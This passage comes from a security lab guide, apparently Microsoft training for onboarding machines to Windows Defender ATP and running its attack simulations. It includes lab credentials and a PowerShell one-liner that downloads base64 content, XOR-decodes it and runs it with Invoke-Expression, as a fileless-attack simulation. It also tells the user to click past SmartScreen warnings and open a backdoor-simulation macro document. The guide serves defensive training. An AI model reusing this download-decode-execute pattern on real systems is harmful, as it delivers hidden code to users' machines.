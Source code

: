 	> [!NOTE] If you do not see the UAC window, minimize all windows and it will be in the background.
1. Enter the credentials below and click **Yes**:

	```LabUser```

	```Pa$$w0rd```

1. Press **(Y)** to confirm onboarding.
2. Return to the browser, scroll to the bottom of the page, and click **Start using Windows Defender ATP**.
1. Click **Proceed anyway** if you receive a Setup incomplete popup.
3. In the Windows Defender Security Center, click on **Settings > Advanced Features** and toggle the switches on for **Azure ATP integration**, **Office 365 Threat Intelligence Connection**, **Microsoft Cloud App Security**, and **Azure Information Protection** and press the **Save preferences** button at the bottom of the page.
	
	!IMAGE[g47p8c30.jpg](\Media\wdatpadv.png)

1. Switch to @lab.VirtualMachine(VictimPC).SelectLink and log in with the password ```@lab.VirtualMachine(VictimPC).Password```.

1. Open an Edge InPrivate window and navigate to ```https://securitycenter.windows.com/```.
1. Log in using the credentials below:

	```@lab.CloudCredential(134).Username```

	```@lab.CloudCredential(134).Password```
1. On the left, click the **Settings** icon.

	!IMAGE[settings.png](\Media\settings.png)

3. On the Settings page, under **Machine management**, click **Onboarding**.
   
	!IMAGE[Open Screenshot](\Media\onboarding.png)

1. Click **Download package** and **Open** when the download dialog pops up.
2. Copy the **WindowsDefenderATPLocalOnboardingScript** to the desktop.
3. Right-click on **WindowsDefenderATPLocalOnboardingScript** and click **Run as Administrator**.
1. If you get the Windows protected your PC dialog, click the **More info** link and click **Run anyway**.
4. Press **(Y)** to confirm onboarding.
5. To run **Attack Simulation #1 "Automated investigation (fileless attack)"**, right-click **on AttackSimulation1.ps1** on the desktop, and click **Run with PowerShell**.

	> [!NOTE] A notepad window will launch to show that the attack was successful. Leave the notepad window open and continue with the lab.
	
	> [!KNOWLEDGE] The powershell commands that are included in the ps1 file are in the block below.
	> 
	> \[Net.ServicePointManager\]::SecurityProtocol = \[Net.SecurityProtocolType\]::Tls12;$xor = \[System.Text.Encoding\]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI https://winatpmanagement.windows.com/client/management/static/WinATP-Intro-Fileless.txt -UseBasicParsing).Content;Try{ $contentBytes = \[System.Convert\]::FromBase64String($base64String) } Catch { $contentBytes = \[System.Convert\]::FromBase64String($base64String.Substring(3)) };$i = 0; $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i]; $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression (\[System.Text.Encoding\]::UTF8.GetString($decryptedBytes))

1. Switch to @lab.VirtualMachine(AdminPC).SelectLink and log in with the password ```@lab.VirtualMachine(AdminPC).Password```.
1. Run **Attack Simulation #2 "Automated investigation (backdoor)"** by following the instructions below:
	1. On the desktop, double-click on **RS4_WinATP-Intro-Invoice.docm** and enter ```WDATP!diy#``` when prompted for a password.
